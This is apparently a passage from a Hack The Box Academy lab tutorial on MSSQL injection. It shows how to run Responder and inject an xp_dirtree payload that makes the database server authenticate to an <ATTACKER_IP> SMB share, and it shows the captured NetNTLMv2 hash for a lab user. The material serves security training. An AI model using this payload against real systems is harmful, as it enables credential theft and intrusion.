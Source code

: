 Next, start `Responder` listening on the VPN network interface. `Make sure the SMB server says [ON]`. If it doesn't, modify `Responder.conf` in the same directory and change the line `SMB = Off` to `SMB = On`.

```shell
sudo python3 Responder.py -I eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
<SNIP>
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]
<SNIP>

```

With `Responder` up and running, we can work on the SQL payload. The query we want to run is:

```sql
EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;

```

This will attempt to list out the contents of the SMB share `myshare`, which requires authenticating (sending the NetNTLM hash).

We can practice this against `Aunt Maria's Donuts`. The payload we will have to use then looks like this:

```sql
';EXEC master..xp_dirtree '\\<ATTACKER_IP>\myshare', 1, 1;--

```

Running the payload against `api/check-username.php` should return a regular response from the server.

![](https://academy.hackthebox.com/storage/modules/177/amdonuts/18.png)

If we check `Responder` however, we should now see a NetNTLM hash from `SQL01\jason`.

```shell
sudo responder -vI eth0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|
<SNIP>
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.156
[SMB] NTLMv2-SSP Username : SQL01\jason
[SMB] NTLMv2-SSP Hash     : jason::SQL01:bd7f162c24a39a0f:94DF80C5ABBA<SNIP>000000000
<SNIP>

```